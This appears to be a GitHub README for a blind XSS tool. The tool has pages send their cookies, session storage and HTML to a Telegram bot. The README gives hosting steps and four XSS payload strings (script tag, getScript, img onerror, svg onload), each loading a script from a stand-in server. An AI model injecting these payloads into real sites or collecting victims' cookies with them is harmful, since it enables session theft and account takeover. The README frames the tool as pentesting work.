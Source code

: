 # 🔍 Blind XSS Alert with Telegram

## 📜 Description
This project is designed to identify Blind XSS vulnerabilities by capturing data from affected web pages and sending it to a Telegram bot. The data includes cookies, session storage, and HTML content. This tool is useful for security researchers and penetration testers looking to automate the detection of Blind XSS vulnerabilities.

## 🚀 Features
- Captures and sends cookies, and HTML content to Telegram.
- Uploads HTML content as a separate file for easier review.
- Includes payload examples for testing purposes.

### 🛠️ Hosting on GitHub Pages
1. Create a GitHub repository named `blind-xss-alert-with-telegram`.
2. Upload `script.js` and any related files
3. Push changes to GitHub.

## 🧪 Payload Examples
```html
<script src="//yourserver.com/script.js"></script>
<script>$.getScript("https://yourserver.com/script.js")</script>
<img src="nonexistent.jpg" onerror="var script = document.createElement('script'); script.src = 'https://yourserver.com/script.js'; document.head.appendChild(script);">
<svg onload="var script = document.createElement('script'); script.src = 'https://yourserver.com/script.js'; document.head.appendChild(script);"></svg>
```
